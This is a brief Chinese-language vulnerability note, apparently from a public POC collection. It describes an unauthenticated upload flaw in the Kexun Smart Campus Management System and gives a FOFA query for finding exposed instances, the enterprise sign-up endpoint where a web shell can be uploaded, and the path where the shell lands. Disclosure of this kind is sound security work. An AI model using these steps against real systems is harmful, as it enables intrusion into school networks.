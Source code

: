 # 科迅 智慧校园管理系统 前台上传漏洞

## 网络测绘

fofa: body="DC_Login/QYSignUp"

## POC / EXP

```
# 登陆界面中存在企业用户注册，进入企业注册页面存在上传附件功能直接上传shell，上传后显示路径
http://x.x.x.x/DC_Login/QYSignUp

# shell
../Upload/wjg/xxx.aspx
```